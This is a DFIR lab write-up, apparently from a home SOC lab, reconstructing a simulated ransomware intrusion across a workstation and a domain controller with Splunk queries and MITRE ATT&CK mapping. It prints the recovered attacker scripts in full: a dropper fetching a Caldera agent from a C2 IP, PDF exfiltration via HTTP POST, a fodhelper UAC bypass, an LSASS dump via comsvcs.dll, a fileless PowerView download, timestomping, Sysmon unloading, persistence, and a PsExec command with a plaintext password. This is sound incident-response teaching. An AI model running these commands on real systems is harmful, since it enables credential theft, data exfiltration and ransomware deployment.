<!-- notion-metadata-start -->
*📅 Published: 2026-05-19 17:32 | 🔄 Last Updated: 2026-05-30 12:51*
<!-- notion-metadata-end -->
---


## Scenario {#3657b0eb61a4800380bac1d93bad1cba}


At 07:05 PM on 05/19/2026, Jim, an employee at SOCLAB, reported that his desktop wallpaper had been changed to a ransom note. The system administrator subsequently announced that the same issue had occurred on the Domain Controller (DC01) and that personal executive documents had been encrypted. The SOC and DFIR teams were tasked with investigating the incident to determine the scope and blast radius of the attack





## Analysis {#3657b0eb61a480cbb6eae221686dbd9e}


## Triage {#3657b0eb61a480fdbd41d5ea850b4fc1}


For rapid triage, Suricata alerts were analyzed to identify the initial trigger. 


```sql
index="suricata" alert.severity="1" OR alert.severity="2"|table _time src_ip src_port dest_ip dest_port alert.signature | dedup src_ip src_port dest_ip dest_port alert.signature | sort -_time
```




- Based on the Suricata alerts, there is high confidence that the initially compromised host is `10.10.10.15` (WS01), which navigated to `192.168.253.128:443` to download a malicious PowerShell script.
- The threat actor's IP address is `192.168.253.128`, utilizing port `88` for Command and Control (C2), and deploying the Sandcat malware agent to compromise the system.
- Between 18:40 and 18:41 on 2026-05-19, the threat actor laterally moved from WS01 to DC01 (`10.10.10.10`).
- The defined time range for this investigation is between `2026-05-19 18:30:00` and `2026-05-19 19:05:00`.

To understand the threat actor's actions on the system, we retraced the artifacts left behind following the ransomware deployment.


## DC01 Investigation {#3657b0eb61a4806d855fc5a037eb3063}


On Splunk, we set the time range between 18:50 and 19:10 and queried for Sysmon Event ID 11 (File Creation) related to the ransomware. 


```sql
index=sysmon EventCode=11 host="DC01" TargetFileName=*_ransom*_ |table _time TargetFilename
```





It is highly suspicious that the query returned zero results, given that all PDF files had a `.ransom` extension appended. This could be an indicator Defense Impairment or Defense Evasion techniques.


### Defense impairment - Unload Sysmon filter to stop sysmon logging {#3657b0eb61a480c9933edb30464dc452}


Let's examine Sysmon Event ID 1 (Process Creation) within the same timeframe


```sql
index=sysmon EventCode=1 host="DC01" | table _time Image CommandLine
```





The command `fltmc.exe unload SysmonDrv` is used in Windows to instantly unload the Sysmon filter driver (`SysmonDrv`), which is the kernel-mode component responsible for recording system events. 


At `18:52:04,` the hacker successfully impaired the Sysmon logging process, explaining why Event ID 11 yielded no results in the previous query. 


Rather than relying solely on Sysmon, we analyzed the Windows Security Logs (event id 4688) for activity occurring after `18:52:04`


```sql
index="windows_security"  EventCode=4688 host="DC01"  Process_Command_Line!=*_splunk*_| table  _time host Process_Command_Line Creator_Process_Name  | sort  -_time
```


### Impact:  Delete Volume Shadow Copies {#3657b0eb61a480a8aaaad38de735174d}


At `18:54:44`, a command was executed on DC01 to delete all Volume Shadow Copies (VSCs). Because deleting shadow copies prevents system recovery, this command is heavily utilized by ransomware operators





From the same query i also found some powershell base 64 encoded commands





### Stealth (Indicator Removal on Host: Timestomp - T1070.006) {#3657b0eb61a480faa7a8f0a0a3032888}


At `19:00:13`: TimeStomping - a sub-technique (T1070.006) - Indicator removal techiniques which falls under the Steath tactics according to MITRE ATT&CK matrix


```sql
$payloadPath = "$env:TEMP\winupdate.exe";
$fakeDate = [datetime]"01/01/2010 12:00:00";

if (Test-Path $payloadPath) {
    try {
        [System.IO.File]::SetCreationTime($payloadPath, $fakeDate);
        [System.IO.File]::SetLastWriteTime($payloadPath, $fakeDate);
        [System.IO.File]::SetLastAccessTime($payloadPath, $fakeDate);
        Write-Host "[+] Timestomped running payload: $payloadPath";
    } catch {
        Write-Host "[-] Failed to timestomp payload. Windows strict lock applied.";
    }
} else {
    Write-Host "[-] Payload not found at $payloadPath. Skipping...";
}

$ransomFiles = Get-ChildItem -Path "C:\c-suite-docs\*.ransom" -ErrorAction SilentlyContinue;
if ($ransomFiles) {
    $ransomFiles | ForEach-Object {
        [System.IO.File]::SetCreationTime($_.FullName, $fakeDate);
        [System.IO.File]::SetLastWriteTime($_.FullName, $fakeDate);
        [System.IO.File]::SetLastAccessTime($_.FullName, $fakeDate);
    };
    Write-Host "[+] Timestomping complete for all .ransom files.";
} else {
    Write-Host "[-] No .ransom files found to timestomp.";
}
```


### Impact: **Defacement - Internal Defacement (T1491.001)** {#3657b0eb61a480f18037fa2d9b9104e7}


 At `19:00:13`, the attacker performed internal defacement (T1491.001). The adversary downloaded `ransom.jpg` from `192.168.253.128`, stored it at `C:\Users\Public\ransom.jpg`, and executed C# code to change the desktop wallpaper.  


```sql
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = New-Object System.Net.WebClient;
$wc.DownloadFile("https://192.168.253.128:443/ransom.jpg", "C:\Users\Public\ransom.jpg");
$SetWallPaperCode = @'
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
'@
Add-Type -TypeDefinition $SetWallPaperCode;
[Wallpaper]::SystemParametersInfo(20, 0, "C:\Users\Public\ransom.jpg", 3);
```


### Data Encrypted for Impact (T1486) {#3657b0eb61a480bcb04ef19595ebb5d8}




- Inspecting the `Creator_Process_Name` (the parent process) revealed a suspicious process, `winupdate.exe`, executing from the `Temp` folder.
- The `Temp` directory is frequently abused by attackers as a staging area.
- A quick filter for `winupdate.exe` confirmed it was the payload responsible for encrypting all PDF files at `18:54:44.`




### Persistence (Event Triggered Execution: Windows Management Instrumentation Event Subscription -  T1546.003)  {#3657b0eb61a480be9d62c4783e724545}


Because sysmon in disabled at `18:52:04`  , it’s still a valueable source of evidence.


Set the filter for the time before: `18:52:04`  and query for all activity related to winupdate.exe


```sql
index="sysmon"  EventCode=1 host="DC01" *winupdate.exe* | table _time CommandLine ParentCommandLine | sort -_time
```





Here we can assure again the C2 connection is:  `http://192.168.253.128:80` 





2026-05-19 18:51:05: hacker check for the filter and subcription named “updater” which is quite resemble to the malicious winupdater.exe above.


```sql
Get-CimInstance -Namespace root/subscription -ClassName __EventFilter -Filter "Name = 'updater'"
Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Filter "Name = 'updater'"
```


```sql
$FilterArgs = @{name='updater'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime 
```


This can be an indicator of WMI persistence, which is an advanced technique (MITRE ATT&CK T1546.003) frequently employed by APT and sophisticated malware. Attackers can maintain stealthy persistence, execute payloads filelessly, and effectively evade basic antivirus or EDR.


To comfirm this hypothesis, we need to analyze sysmon event id: 

- 19: WmiEventFilter activity detected → the trigger
- 20: WmiEventConsumer activity detected → the action
- and 21: WmiEventConsumerToFilter activity detected → binding those two above

```sql
index=sysmon "eventcode=19" Name=*updater*| table _time host Name Query
```


`2026-05-19 18:44:41`: the attacker created an event filter that trigger based on system uptime `within 60s and  >= 240 and  < 325 second` after the system are on.





```sql
"SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
```


`2026-05-19 18:44:41` : the corresponding event consumer defines the action: to execute the winupdate.exe





```sql
index=sysmon "eventcode=21" Consumer=*updater* | table _time host Filter Consumer
```


`2026-05-19 18:46:43:` the persistence mechanism is activated when the filter and the consumer are bound together using `FilterToConsumerBinding` class.





→ `2026-05-19 18:46:43`the attacker established a WMI persistence on DC01 by configured to execute winupdate.exe approximately `4 minutes` after the system boots.


### Data Exfiltration (**Exfiltration Over C2 Channel - T1041**) {#3657b0eb61a4809db1bcf3a0be837bf0}


In the same query as above:


```sql
index="sysmon"  EventCode=1 host="DC01" *winupdate.exe* | table _time CommandLine ParentCommandLine | sort -_time
```





The decode command is: 


```sql
$ProgressPreference = 'SilentlyContinue';
Compress-Archive -Path C:\c-suite-docs\*.pdf -DestinationPath $env:TEMP\loot.zip -Force;
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
[Net.ServicePointManager]::Expect100Continue = $false;
$wc = New-Object System.Net.WebClient;
$wc.Headers.Add('X-File-Name', 'c_suite_loot.zip');
$fileBytes = [System.IO.File]::ReadAllBytes("$env:TEMP\loot.zip");
$wc.UploadData('https://192.168.253.128:443', 'POST', $fileBytes);
rm -Force $env:TEMP\loot.zip -ea ignore;
```


The threat actor compressed all PDF files located in `C:\c-suite-docs` into a zip file (`loot.zip`) within the `TEMP` directory. This archive was exfiltrated via an HTTP POST request to `https://192.168.253.128:443` before being deleted from the host.  


### Discovery (**File and Directory Discovery - T1083**)  {#3657b0eb61a480aa8480d4bd7e264fbe}


Sysmon Event ID 1 logs associated with `winupdate.exe` also revealed discovery commands employed by the attacker to map the system between 18:41:59 and 18:43:26.  


```sql
index="sysmon"  EventCode=1 host="DC01" *winupdate.exe* | table _time CommandLine ParentCommandLine | sort -_time
```





### Lateral Movement (**Lateral Tool Transfer - T1570)** {#3657b0eb61a480398a64d2e379348b4c}


A query was constructed to hunt for commands related to `powershell` or `cmd`, common utilities frequently abused to attack the system


```sql
index="sysmon"  EventCode=1 host="DC01" *powershell* OR *cmd* | table _time CommandLine ParentCommandLine | sort -_time
```





Decoding the command revealed a PowerShell dropper script commonly used by MITRE Caldera. It contacted `http://192.168.253.128:80`, downloaded the Sandcat agent (`sandcat.go`), and executed it.  


```sql
$server = "http://192.168.253.128:80";
$url = "$server/file/download";
$exePath = "$env:TEMP\winupdate.exe";

$wc = New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");

$data = $wc.DownloadData($url);

get-process | ? {$_.modules.filename -like $exePath} | stop-process -f;
rm -force $exePath -ea ignore;

[io.file]::WriteAllBytes($exePath, $data) | Out-Null;
Start-Process -FilePath $exePath -ArgumentList "-server $server -group red" -WindowStyle hidden;
```





The parent process of this PowerShell execution was `PSEXESVC.exe`, a service created by PsExec (a legitimate command-line tool from Microsoft Sysinternals used to execute processes on remote systems).  


We can use event code (7045 (a new service is successfully installed) or 4697) and event code 5145 (A network share object was checked to see whether client can be granted desired access) to dive deep into how psExec works:








The presence of files like `PSEXESVC.exe` and `PSEXEC-WS01-EA6B6357.key` confirms that this is PsExec activity from WS01 to DC01.

- PsExec dropped PSEXESVC on `\\*\ADMIN$` which is equivalent to C:\Windows directory and the service can’t run just yet.
- PsExec establishes `PSEXEC-WS01-EA6B6357.key` to create a “communication tunnel” between the host and the target machine.  It handles standard input, output, and error streams (stdin, stdout, stderr).
- WS01 then connects to the target target's `svcctl` ( Windows Service Control Manager) named pipe over the `IPC$` share. By then the  `PSEXESVC.exe` would start running.
	- attack wants to create, start, stop, or delete a service on a machine, they must send the command through the `svcctl` pipe.

:::tip

Analogy: You call the Building Manager (`svcctl`) to tell them to wake up your Private Employee (`PSEXESVC.exe`). Once the employee is awake and at their desk, you hang up with the manager. From that point on, you only communicate with your employee using the secure, Private Phone Line (`PSEXEC-WS01-EA6B6357.key`) so the building manager doesn't hear the exact commands you are issuing.

:::


### DC01 - Timeline {#3657b0eb61a4804f9eb8e7cd69e3cb76}


| Timestamp                         | Action                                                                                                                    | MITRE ATT&CK                                                                                    |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| `2026-05-19 18:40`                | The threat actor proceeded to move laterally from WS01 to DC01 (10.10.10.10) using PsExec to execute the SandCat malware. | Lateral Tool Transfer - T1570                                                                   |
| `2026-05-19 18:41:59 -> 18:43:26` | File and folder discovery                                                                                                 | File and Directory Discovery - T1083                                                            |
| `2026-05-19 18:44:40`             | Exfiltrated pdf document in C:\c-suite-docs to the C2 ip                                                                  | Exfiltration Over C2 Channel - T1041                                                            |
| `2026-05-19 18:44:41 -> 18:46:43` | Established Persistence with WMI                                                                                          | Event Triggered Execution: Windows Management Instrumentation `E`vent Subscription -  T1546.003 |
| `2026-05-19 18:52:04`             | Impaired Sysmon logging process                                                                                           | Disable or Modify Tools - T1685                                                                 |
| `2026-05-19 18:54:44`             | Deleted all Volume Shadow Copies (VSCs)                                                                                   | Inhibit System Recovery - T1490                                                                 |
|  `2026-05-19 18:54:44`            | Encrypted all PDFs into the `.ransom` extension.                                                                          | **Data Encrypted for Impact - T1486**                                                           |
| `2026-05-19 19:00:13`             | Defacement: Changed the desktop wallpaper.                                                                                | Defacement: Internal Defacement -T1491.001                                                      |
| `2026-05-19 19:00:13`             | Hacker attempted to alter the Standard Information timestamps of PDF files.                                               | Indicator Removal on Host: Timestomp - T1070.006                                                |


## WS01 {#3667b0eb61a480bca7b6ef9bf6bdd766}


Moving to WS01, the beachhead host in the attack: Suricata alerts from the triage session indicated an unknown user requested a PowerShell file at `18:30` on `2026-05-19`. Consequently, `18:25` was established as the starting point for this investigation.


```sql
index="suricata" alert.severity="1" OR alert.severity="2" src_ip="10.10.10.15" |table _time src_ip src_port dest_ip dest_port alert.signature | dedup src_ip src_port dest_ip dest_port alert.signature | sort -_time
```





### Execution (User Execution: Malicious File - T1204.002) {#3667b0eb61a4809a8811fe1004234adc}


Sysmon Event ID 11 (File Creation) triggers whenever a new file is created or an existing file is overwritten. We queried this event ID to identify the downloaded file.  


```sql
index="sysmon"  EventCode=11 host="WS01" TargetFilename=*ps1* | table _time User TargetFilename
```





The query revealed the creation of a `Zone.Identifier` file, which Windows creates to store Mark-of-the-Web (MotW) information for files downloaded from the internet. The associated file was named `Annual_Report_2026.ps1`, imitating a legitimate financial report. Tracking Event ID 1 associated with this file showed that the user "jim" opened the script using Notepad before executing it with `pwsh.exe` (PowerShell 7). 


Query for Event ID 11 related to the malicious PowerShell code:


```sql
index="sysmon"  EventCode=1 host="WS01" CommandLine=*Annual_Report_2026* |table _time User ParentImage CommandLine
```





And query idicates that user Jim open the powershell with notepad


Adjust the timestamp around Jim’s action 


```sql
index="sysmon"  EventCode=1 host="WS01" |table _time User CommandLine ParentImage | sort _time
```


Reveals that the malicious code in ps1 file was executed by user jim with pwsh.exe (PowerShell 7)





The payload name strongly resembled the one found on DC01: `winupdate.exe`, located in `C:\Users\jim\AppData\Local\Temp\`  with the hashes:

- SHA1=6F277319994C1669897A6032694E73C5B1C1D2A4
- MD5=E15C5124E8E90AA19A8596EA79A04E90
- SHA256=BBE9707328838688DD88F50C147619D429582E742040056ACADA0F00E78DB351,IMPHASH=D42595B695FC008EF2C56AABD8EFD68E




To find all action relate to winupdate.exe, i used this query


```sql
index="sysmon"  EventCode=1 host="WS01" CommandLine=*winupdate* OR ParentImage=*winupdate* |table _time User CommandLine ParentImage| sort _time
```





Let’s analyze each of the command following temperal order


### Command & Control (**Application Layer Protocol: Web Protocols - T1071.001)** {#3667b0eb61a480f682cdca72731ddfd2}

- `2026-05-19 18:31:03` : winupdate.exe initiated beaconing to `http://192.168.253.128:80`

### Persistence (**Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder - T1547.001)** {#3667b0eb61a480eeb9a2d4a7116d5102}


```sql
powershell.exe -ExecutionPolicy Bypass -C "$payload = \"$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red\";$regPath = \"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\";New-ItemProperty -Path $regPath -Name \"WindowsUpdateManager\" -Value $payload -PropertyType String -Force;"
```


`2026-05-19 18:33:32:` Threat actor achieved persistence mechanism by creating a startup registry run key named: `WindowsUpdateManager` in  `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\`


### Discovery - System Information Discovery (T1082) {#3667b0eb61a4805693e3f3de1e9967a8}


`2026-05-19 18:34:25` : the attacker mapped the WS01 host using built-in discovery tools (`whoami`, `systeminfo`, `net`, `netstat`). The results were concatenated into a formatted PowerShell output string for easy exfiltration.


```sql
powershell.exe -ExecutionPolicy Bypass -C "$Report = \"=========================================`n\";$Report += \"   COMPOSITE DISCOVERY REPORT - LAB SOC  `n\";$Report += \"=========================================`n`n\";$Report += \"--- [1] CURRENT USER PRIVILEGES (whoami /all) ---`n\";$Report += (whoami.exe /all | Out-String) + \"`n\";$Report += \"--- [2] LOCAL ADMINISTRATORS (net localgroup) ---`n\";$Report += (net.exe localgroup Administrators | Out-String) + \"`n\";$Report += \"--- [3] ACTIVE CONNECTIONS (netstat) ---`n\";$Report += (netstat.exe -ano | Select-String \"LISTENING|ESTABLISHED\" | Out-String) + \"`n\";$Report += \"--- [4] ARP CACHE (arp -a) ---`n\";$Report += (arp.exe -a | Out-String) + \"`n\";$Report += \"--- [5] SYSTEM INFO (systeminfo) ---`n\";$Report += (systeminfo.exe | Out-String) + \"`n\";$Report"
```





### Privilege Escalation (**Abuse Elevation Control Mechanism: Bypass User Account Control -** T1548.002) {#3667b0eb61a48005be13d085dd431d14}


`2026-05-19 18:35:25`


```sql
powershell.exe -ExecutionPolicy Bypass -C "New-Item \"HKCU:\Software\Classes\ms-settings\Shell\Open\command\" -Force;New-ItemProperty -Path \"HKCU:\Software\Classes\ms-settings\Shell\Open\command\" -Name \"DelegateExecute\" -Value \"\" -Force;Set-ItemProperty -Path \"HKCU:\Software\Classes\ms-settings\Shell\Open\command\" -Name \"(default)\" -Value \"$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red\" -Force;Start-Process \"C:\Windows\System32\fodhelper.exe\" -WindowStyle Hidden;Start-Sleep -s 3;Remove-Item \"HKCU:\Software\Classes\ms-settings\" -Recurse -Force;"
```


The script is a classic privilege escalation technique known as Fodhelper UAC Bypass


`fodhelper.exe` (Features on Demand Helper) is a built-in Windows utility that allows to auto-elevate to Administrator without prompting the user.

- Attacker created `"HKCU:\Software\Classes\ms-settings\Shell\Open\command”`  with the name: `DelegateExecute`
	- fodhelper.exe always checks the `HKCU` before `HLKM` registry folder (specifically for `ms-settings` key) whenever it is spawned, it’s a legacy feature of Windows designed for User Customization.
	- By creating a new spoofing `ms-settings` registry key in HCKU, threat actor tricked fodhelper.exe to run the malicious payload.
- Inject the payload into the Value field: `-Value "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red"`
- Start the process: `Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden;`
- After gaining the elevated privilege, threat actor deleted the key:
	- `Start-Sleep -s 3;
	Remove-Item "HKCU:\Software\Classes\ms-settings" -Recurse -Force;`

Reviewing event id 13, we can find out specific registry that threat actor created.


```sql
index="sysmon"  EventCode=13 host="WS01" TargetObject=*ms-settings* | table _time TargetObject Message
```





:::tip

For this privilege escalation exploitation to work, the user must be part of Local Administrator group and the the process is running at Medium Integrity level.
- In normal use, Windows maintains the local Admin’s integrity level at Medium in trivial task like open app, documents.

- When the user click “Run as Administrator”,  the Integrity level is elevated to “High” - which’s equivalent to Administrator privilege.

Beside `fodhelper.exe`, there are other authentic windows process that can be exploit using the same method: 

- `eventvwr.exe` can auto-elevate and execute a specified binary or script.

- [APT38](https://attack.mitre.org/groups/G0082) has used the legitimate application `ieinstal.exe` to bypass UAC

- [Koadic](https://attack.mitre.org/software/S0250) has 2 methods for elevating integrity. It can bypass UAC through `eventvwr.exe` and `sdclt.exe`.

:::


Pay attention to the Integrity level in these commands after the fodhelper.exe exploitation. User SOCLAB\jim integrity level has been elevated from “Medium” to “High” signified that the Privilege Escalation was successful.





### Discovery - **Account Discovery: Domain Account (T1087.002)** {#3667b0eb61a48000a077cf71c0ba6d29}


`2026-05-19 18:36:26`





```sql
powershell.exe -ExecutionPolicy Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');$Output = \"=== DOMAIN INFO ===`n\";$Output += Get-NetDomain | Out-String;$Output += \"=== ADMIN USERS ===`n\";$Output += Get-NetGroupMember -GroupName \"Domain Admins\" | Out-String;$Output += \"=== TARGET COMPUTERS ===`n\";$Output += Get-NetComputer -Ping | Out-String;$Output += \"=== VULNERABLE NETWORK SHARES ===`n\";$Output += Invoke-ShareFinder -CheckShareAccess | Out-String;$Output;"
```

- Threat Actor utilized PowerView - a PowerShell-bases AD enumeration tool. It is a part of the PowerSploit framework.
	- Execute it filelessly in memory
- `Get-NetDomain` :  current user's domain, including the forest name, domain controllers, and functional levels.
- `Get-NetGroupMember -GroupName \"Domain Admins\"` : identify accounts with the highest level of authority in the network.
- `Get-NetComputer -Ping` : Queries AD for a list of all computer objects. Adding the `-Ping` flag verifies which machines are currently active/online.
- `Invoke-ShareFinder -CheckShareAccess` : query for open file shares.

### Credential Access (**OS Credential Dumping: LSASS Memory -**T1003.001) {#3667b0eb61a480ec8e71f50356015917}


We already knew that threat actor employed PsExec to move laterallly from WS01 to DC01


To achieve the DC01 administrator password, the threat actor had to access lsass.exe - a critical windows process that stores Windows credentials.


By inspecting the event id 10 with the TargetImage is lsass:


```sql
index="sysmon"  EventCode=10 host="WS01" TargetImage=*lsass.exe* |table _time host SourceImage TargetImage GrantedAccess TargetProcessId
```





GrantedAccess: `0x1FFFFF` corresponds to `PROCESS_ALL_ACCESS`, granting a program full permissions (e.g., reading/writing memory) over a target process


Switch to event ID in the same time range  `2026-05-19 18:37:58`


It’s clear that threat actor used `comsvcs.dll` to extract lsass dump.





```sql
"C:\Windows\system32\rundll32.exe" C:\windows\System32\comsvcs.dll MiniDump 728 C:\Users\jim\AppData\Local\Temp\lsass.dmp full
```


`comsvcs.dll`  is a legitimate Windows system DLL contains a built-in function for creating process memory dump

- MiniDump: the function being called, it is designed to create a snapshot of process memory
- 728: is lsass.exe process id as we see before on event id 10
- `C:\Users\jim\AppData\Local\Temp\lsass.dmp` : save to the temp folder to stay low-profile

###  Exfiltration (T1041 - **Exfiltration Over C2 Channel)** {#3667b0eb61a4809f9e5aff39efe87add}


`2026-05-19 18:38:37:` threat actor then exfiltrated the lsass.dmp to his base 192.168.253.128 via HTTPS





### Lateral Movement (**Lateral Tool Transfer - T1570)** {#3667b0eb61a480acb1e0eebcaf92c92c}


```sql
index="sysmon"  EventCode=1 host="WS01" CommandLine=*psexec* |table _time User IntegrityLevel CommandLine ParentImage | sort _time
```


`2026-05-19 18:40:05` as we already investigated on DC01, the attacker used PsExec with the Administrator’s credential the cracked from the lsass.dmp to move laterally to DC01 and dropped the same payload `winupdate.exe` and executed it with the SYSTEM privilege


```sql
powershell.exe -ExecutionPolicy Bypass -C ".\PsExec64.exe \\DC01 -accepteula -u \"soclab\Administrator\" -p \"Password1!\" -s -d powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABzAGUAcgB2AGUAcgAgAD0AIAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADIANQAzAC4AMQAyADgAOgA4ADAAIgA7AA0ACgAkAHUAcgBsACAAPQAgACIAJABzAGUAcgB2AGUAcgAvAGYAaQBsAGUALwBkAG8AdwBuAGwAbwBhAGQAIgA7AA0ACgAkAGUAeABlAFAAYQB0AGgAIAA9ACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAHcAaQBuAHUAcABkAGEAdABlAC4AZQB4AGUAIgA7AA0ACgANAAoAJAB3AGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7AA0ACgAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBhAGQAZAAoACIAcABsAGEAdABmAG8AcgBtACIALAAiAHcAaQBuAGQAbwB3AHMAIgApADsADQAKACQAdwBjAC4ASABlAGEAZABlAHIAcwAuAGEAZABkACgAIgBmAGkAbABlACIALAAiAHMAYQBuAGQAYwBhAHQALgBnAG8AIgApADsADQAKAA0ACgAkAGQAYQB0AGEAIAA9ACAAJAB3AGMALgBEAG8AdwBuAGwAbwBhAGQARABhAHQAYQAoACQAdQByAGwAKQA7AA0ACgANAAoAZwBlAHQALQBwAHIAbwBjAGUAcwBzACAAfAAgAD8AIAB7ACQAXwAuAG0AbwBkAHUAbABlAHMALgBmAGkAbABlAG4AYQBtAGUAIAAtAGwAaQBrAGUAIAAkAGUAeABlAFAAYQB0AGgAfQAgAHwAIABzAHQAbwBwAC0AcAByAG8AYwBlAHMAcwAgAC0AZgA7AA0ACgByAG0AIAAtAGYAbwByAGMAZQAgACQAZQB4AGUAUABhAHQAaAAgAC0AZQBhACAAaQBnAG4AbwByAGUAOwANAAoADQAKAFsAaQBvAC4AZgBpAGwAZQBdADoAOgBXAHIAaQB0AGUAQQBsAGwAQgB5AHQAZQBzACgAJABlAHgAZQBQAGEAdABoACwAIAAkAGQAYQB0AGEAKQAgAHwAIABPAHUAdAAtAE4AdQBsAGwAOwANAAoAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAJABlAHgAZQBQAGEAdABoACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACIALQBzAGUAcgB2AGUAcgAgACQAcwBlAHIAdgBlAHIAIAAtAGcAcgBvAHUAcAAgAHIAZQBkACIAIAAtAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuADsA"
```





Hacker use -s flag to run the command in NT AUTHORITY\SYSTEM privilege


By default, the PSEXECSVC service already runs under SYSTEM account. When the -s flag is present, the PSEXEC service simply spawns the PowerShell command as a child process, which inherits the security token of its parent, granting the attacker total control over the domain.





### WS01 Timeline {#3667b0eb61a480fc9104f249fa5f162b}


| Timestamp           | Action                                                                                                                                                | MITRE ATT&CK                                                                                      |
| ------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| 2026-05-19 18:30:01 | The malicious code in the `.ps1` file was executed by user "jim" with `pwsh.exe` (PowerShell 7).                                                      | Execution (User Execution: Malicious File - T1204.002)                                            |
| 2026-05-19 18:31:03 | `winupdate.exe` started beaconing to http://192.168.253.128:80.                                                                                       | Command & Control (Application Layer Protocol: Web Protocols - T1071.001)                         |
| 2026-05-19 18:33:32 | Threat actor achieved persistence by creating a Startup service named `WindowsUpdateManager` in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`. | Persistence (Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder - T1547.001)   |
| 2026-05-19 18:34:25 | Utilized multiple discovery tools (`whoami`, `systeminfo`, `net`, `netstat`) to map the system.                                                       | Discovery - System Information Discovery (T1082)                                                  |
| 2026-05-19 18:35:25 | Exploited `fodhelper.exe` and user misconfigurations to gain Administrator privileges.                                                                | Privilege Escalation (Abuse Elevation Control Mechanism: Bypass User Account Control - T1548.002) |
| 2026-05-19 18:36:26 | Utilized PowerView to enumerate the Active Directory environment.                                                                                     | Discovery - Account Discovery: Domain Account (T1087.002)                                         |
| 2026-05-19 18:37:58 | Used `comsvcs.dll` via `rundll32.exe` (LOLBin) to dump LSASS memory.                                                                                  | Credential Access (OS Credential Dumping: LSASS Memory - T1003.001)                               |
| 2026-05-19 18:38:37 | Exfiltrated `lsass.dmp` to 192.168.253.128 through an HTTPS connection.                                                                               | Exfiltration (Exfiltration Over C2 Channel - T1041)                                               |
| 2026-05-19 18:40:05 | The threat actor proceeded with lateral movement from WS01 to DC01 (10.10.10.10) using PsExec and executed the SandCat malware.                       | Lateral Movement (Lateral Tool Transfer - T1570)                                                  |


## Super Timeline {#3667b0eb61a48098b719dec2f1c06772}


| No | Timestamp                       | Host         | Action                                                                                                                                                | MITRE ATT&CK                                                                                                                         |
| -- | ------------------------------- | ------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| 1  | 2026-05-19 18:30:01             | WS01         | The malicious code in the `.ps1` file was executed by user "jim" with `pwsh.exe` (PowerShell 7).                                                      | Initial access (**Phishing: Spearphishing Link - T1566.002)**                                                                        |
| 2  | 2026-05-19 18:31:03             | WS01         |  `winupdate.exe` executes and initiates C2 beaconing to http://192.168.253.128:80.                                                                    | Execution (User Execution: Malicious File - T1204.002)<br/>Command & Control (Application Layer Protocol: Web Protocols - T1071.001) |
| 3  | 2026-05-19 18:33:32             | WS01         | Threat actor achieved persistence by creating a Startup service named `WindowsUpdateManager` in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`. | Persistence (Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder - T1547.001)                                      |
| 4  | 2026-05-19 18:34:25             | WS01         | Utilized multiple discovery tools (`whoami`, `systeminfo`, `net`, `netstat`) to map the system.                                                       | Discovery - System Information Discovery (T1082)                                                                                     |
| 5  | 2026-05-19 18:35:25             | WS01         | Exploited `fodhelper.exe` and user misconfigurations to gain Administrator privileges.                                                                | Privilege Escalation (Abuse Elevation Control Mechanism: Bypass User Account Control - T1548.002)                                    |
| 6  | 2026-05-19 18:36:26             | WS01         | Utilized PowerView to enumerate the Active Directory environment.                                                                                     | Discovery - Account Discovery: Domain Account (T1087.002)                                                                            |
| 7  | 2026-05-19 18:37:58             | WS01         | Used `comsvcs.dll` via `rundll32.exe` (LOLBin) to dump LSASS memory.                                                                                  | Credential Access (OS Credential Dumping: LSASS Memory - T1003.001)                                                                  |
| 8  | 2026-05-19 18:38:37             | WS01         | Exfiltrated `lsass.dmp` to 192.168.253.128 through an HTTPS connection.                                                                               | Exfiltration (Exfiltration Over C2 Channel - T1041)                                                                                  |
| 9  | 2026-05-19 18:40:05             | WS01 -> DC01 | The threat actor proceeded with lateral movement from WS01 to DC01 (10.10.10.10) using PsExec and executed the SandCat malware.                       | Lateral Movement (Lateral Tool Transfer - T1570)                                                                                     |
| 10 | 2026-05-19 18:41:59 -> 18:43:26 | DC01         | File and folder discovery.                                                                                                                            | Discovery: File and Directory Discovery - T1083                                                                                      |
